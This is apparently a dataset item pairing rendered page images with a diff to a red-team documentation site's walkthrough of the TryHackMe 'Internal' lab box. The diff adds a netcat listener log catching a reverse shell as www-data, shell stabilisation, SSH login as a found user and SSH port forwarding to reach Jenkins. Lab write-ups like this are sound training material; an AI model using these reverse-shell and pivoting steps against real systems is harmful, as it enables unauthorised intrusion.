

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/internal.md, in a window 1280 px wide and 1400 px high, scrolled down 5727 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/thm/internal.md
+++ b/source/docs/thm/internal.md
@@ -285,19 +285,36 @@ Copy and adapt the Laudanum PHP Reverse Shell found in `/usr/share/laudanum/php/
 
 A shell as the `www-data` user is granted on the box.
 
+```text
+$ nc -lvn 1234
+Ncat: Version 7.92 ( https://nmap.org/ncat )
+Ncat: Listening on :::1234
+Ncat: Listening on 0.0.0.0:1234
+Ncat: Connection from 10.10.239.250.
+Ncat: Connection from 10.10.239.250:58570.
+Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
+ 01:44:47 up  1:05,  0 users,  load average: 0.00, 0.00, 0.04
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+```
+
 Stabilise the shell:
 
     python -c "import pty;pty.spawn('/bin/bash')"
+
+Explore to find an interesting file in the `/opt` directory. Read it.
+The user flag is in aubreanna’s home folder.
 
 ## Privilege escalation
 
 MySQL credentials can often be found by inspecting the `wp-config.php` file. Alas.
 
-Explore to find an interesting file in the `/opt` directory. Read it.
+Log in as the aubreanna user via SSH:
 
-    su aubreanna
+    ssh aubreanna@internal.thm
 
-The user flag is in aubreanna’s home folder.
+Check for sudo privileges:
 
     sudo -l
     Sorry, user aubreanna may not run sudo on internal.
@@ -312,11 +329,29 @@ If not a rabbit hole, this could be a way to elevate privileges to root.
 ## Using SSH for port forwarding
 
 Because port 8080 can only be accessed locally, we need to set up port forwarding to redirect traffic to localhost
-on port 1234 to the target machine on port 8080:
+on port 1234 to the target machine on port 8080. On the attack machine:
 
 ```text
-$ ssh -f -N -L 1234:127.0.0.1:8080 aubreanna@<IP target>
+$ ssh -f -N -L 1234:127.0.0.1:8080 aubreanna@internal.thm
+aubreanna@internal.thm's password:
+```
+
+Check results:
+```text
 $ nmap -sC -sV -p 1234 127.0.0.1
+Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-03 03:14 BST
+Nmap scan report for localhost (127.0.0.1)
+Host is up (0.00011s latency).
+
+PORT     STATE SERVICE VERSION
+1234/tcp open  http    Jetty 9.4.30.v20200611
+|_http-server-header: Jetty(9.4.30.v20200611)
+| http-robots.txt: 1 disallowed entry
+|_/
+|_http-title: Site doesn't have a title (text/html;charset=utf-8).
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds
 ```
 
 Jenkins is now available on `127.0.0.1:1234/login?from=%2F` from the attack machine.
````
